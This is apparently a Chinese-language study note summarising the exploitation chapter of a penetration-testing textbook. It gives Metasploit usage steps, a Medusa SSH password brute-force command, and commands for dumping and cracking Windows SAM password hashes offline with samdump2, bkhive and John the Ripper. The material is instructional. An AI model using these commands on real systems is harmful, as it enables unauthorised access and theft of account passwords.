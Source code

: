 CHAPTER4 Exploitation
--------------------------------------
1、渗透神器 **Metasploit**

基本用法：

```
msf> msfconsole
msf> search missing_patch_number (or CVE)
use exploit_name_and_path
msf> show payloads
msf> set payload path_to_payload
msf> show optionsA
msf> set option_name desired_option_input
msf> exploit
```

一份不错的教程：

Metasploit Unleashed [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)

2、在线各类服务密码破解

 - Medusa

```
medusa –h 192.168.18.132 –u ownedb –P /usr/share/john/password.lst –M ssh
```

 - THC Hydra [https://www.thc.org/thc-hydra/](https://www.thc.org/thc-hydra/)


3、系统密码破解神器 John the Ripper

本地Windows密码破解

  1. Shut down the target machine.
  
  2. Boot the target to Backtack or an alternate OS via a live CD or USB drive.
  
  3. Mount the local hard drive.
  
```
  mkdir /mnt/sda1
  mount /dev/sda1 /mnt/sda1
  cd /mnt/sda1/Windows/system32/config
```

<div align="center" markdown="1">
<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/5.png" alt="渗透测试流程5" height="50%" width="50%" />
</div>

  4. Use Samdump2 and to extract the hashes.
  
```
  samdump2 system SAM > /tmp/hashes.txt
```

<div align="center" markdown="1">
<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/6.png" alt="渗透测试流程6" height="50%" width="50%" />
</div>

 Accessing the raw hashes on some Windows systems may require an extra step. Bkhive is a tool which allows you to extract the Syskey bootkey from the system hive. It may be necessary to use bkhive to extract the system key in order to fully expose the password hashes.

```
  bkhive system sys_key.txt
  samdump2 SAM sys_key.txt > /tmp/hash.txt
```

  5. Use JtR to crack the passwords.

```
  john /tmp/hashes.txt --format=nt
```

 <div align="center" markdown="1">
<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/3.png" alt="渗透测试流程7" height="50%" width="50%" />
</div>
